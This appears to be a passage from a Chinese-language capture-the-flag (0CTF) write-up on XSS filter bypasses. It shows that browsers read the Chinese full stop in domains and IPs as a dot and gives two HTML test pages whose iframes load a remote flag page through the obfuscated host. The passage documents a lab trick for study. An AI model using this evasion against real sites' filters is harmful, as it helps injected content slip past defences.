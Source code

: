 
但是，我在测试的时候并没有发现这个问题。后来，与队友讨论和测试了一下，发现很神奇!!

貌似我的chrome有毒。。只有它不能拦截。在ubuntu上测试了一下，和在别人的mac上测试了一下，都会遇到这个坑。。

估计我的chrome有点逆天😂



#### .号的句号形式绕过 

> 所有的主流浏览器都支持用中文句号替换域名部分的英文句号，原因是一些中文键盘更容易输入中文句号......
>
> https://www.zhihu.com/question/45554645

在域名（包括ip格式）部分，浏览器能把。识别成.，也就是说qq。com可以识别成qq.com 192。168。1。1会是被称192.168.1.1  这样就可以绕过前面部分了。但是，这个特性在url后面就失效了。比如admin。com／flag。php 它只能转化成admin.com/flag。php

同时对于admin.com\test.com 它也会自动转换到admin.com/test.com

结果如下

源码：

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\104。224。169。90\flag。php

</p>
</body>
```



![juhao](https://mo-xiaoxi.github.io/img/post/0ctf/juhao.png)

 ```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\router。vip\flag。php

</p>
</body>
 ```
